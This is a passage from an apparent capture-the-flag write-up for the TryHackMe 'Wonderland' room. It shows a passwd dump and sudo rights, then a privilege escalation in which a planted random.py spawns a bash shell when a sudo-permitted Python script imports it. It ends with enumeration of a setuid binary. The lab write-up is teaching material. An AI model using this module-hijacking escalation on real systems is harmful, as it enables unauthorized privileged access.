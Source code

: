     lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
    alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
    hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
    rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
    

    alice@wonderland:~$ sudo -l
    [sudo] password for alice:
    Matching Defaults entries for alice on wonderland:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User alice may run the following commands on wonderland:
        (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
    ```
+ Priviledge Escalation
    - From user alice Abusing python walrus_and_the_carpenter.py with random
    - Create file random.py on the same folder with script on /home/alice
    - script 
    ```python
    #!/usr/bin/env python

    import os
    os.system('/bin/bash')
    ```
    - run script with sudo permission `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
    - Check home folder of rabbit
    ```bash
    rabbit@wonderland:/home/rabbit$ ls -la
    total 40
    drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
    drwxr-xr-x 6 root   root    4096 May 25  2020 ..
    lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
    -rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
    -rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
    -rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
    
    rabbit@wonderland:/home/rabbit$ file teaParty
    teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

    rabbit@wonderland:/home/rabbit$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
    ```
